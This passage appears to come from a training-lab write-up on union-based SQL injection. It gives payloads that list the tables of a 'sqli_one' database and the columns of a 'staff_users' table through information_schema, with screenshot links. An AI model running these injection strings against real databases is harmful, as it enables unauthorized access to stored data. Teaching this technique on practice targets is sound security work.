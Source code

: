     0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
![tables name](images/13-get-tables-name.png)<br/>
The information we want to retrieve has changed from table_name to `column_name`, the table we are querying in the information_schema database has changed from tables to `columns`, and we're searching for any rows where the `table_name` column has a value of `staff_users`.<br/>

    0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
![columns](images/14-all-columns.png)<br/>
We get all the columns name of `stuff_users` table
